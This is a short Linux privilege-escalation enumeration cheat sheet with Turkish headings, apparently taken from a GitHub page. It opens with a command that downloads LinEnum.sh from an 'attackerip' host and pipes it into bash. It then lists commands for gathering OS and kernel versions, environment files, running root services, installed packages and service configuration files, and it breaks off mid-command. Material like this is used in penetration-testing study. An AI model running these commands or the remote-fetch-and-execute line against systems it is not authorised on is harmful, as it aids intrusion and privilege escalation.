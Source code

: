     curl http://attackerip/LinEnum.sh | /bin/bash

### Version

     cat /etc/issue
     cat /etc/*-release
     cat /etc/lsb-release      # Debian based
     cat /etc/redhat-release   # Redhat based

### Kernel Version

    cat /proc/version
    uname -a
    uname -mrs
    rpm -q kernel
    dmesg | grep Linux
    ls /boot | grep vmlinuz-
    
### Çevresel Değişkenler

    cat /etc/profile
    cat /etc/bashrc
    cat ~/.bash_profile
    cat ~/.bashrc
    cat ~/.bash_logout
    env
    set


### Hangi Servisler Çalışıyor

    ps aux
    ps -ef
    top
    cat /etc/services
    ps aux | grep root    #root tarafından çalıştırılan servisler
    ps -ef | grep root    

### Hangi Uygulamalar İndirildi, Versiyonları Ne

    ls -alh /usr/bin/
    ls -alh /sbin/
    dpkg -l
    rpm -qa
    ls -alh /var/cache/apt/archivesO
    ls -alh /var/cache/yum/

### Yanlış Yapılandırma ve Savunması Eklentiler Var mı

    cat /etc/syslog.conf
    cat /etc/chttp.conf
    cat /etc/lighttpd.conf
    cat /etc/cups/cupsd.conf
    cat /etc/inetd.conf
    cat /etc/apache2/apache2.conf
    cat /etc/my.conf
    cat /etc/httpd/conf/httpd.conf
    cat /opt/lampp/etc/httpd.conf
    ls -aRl /etc/ | awk '$1 ~ /^.*r.*/
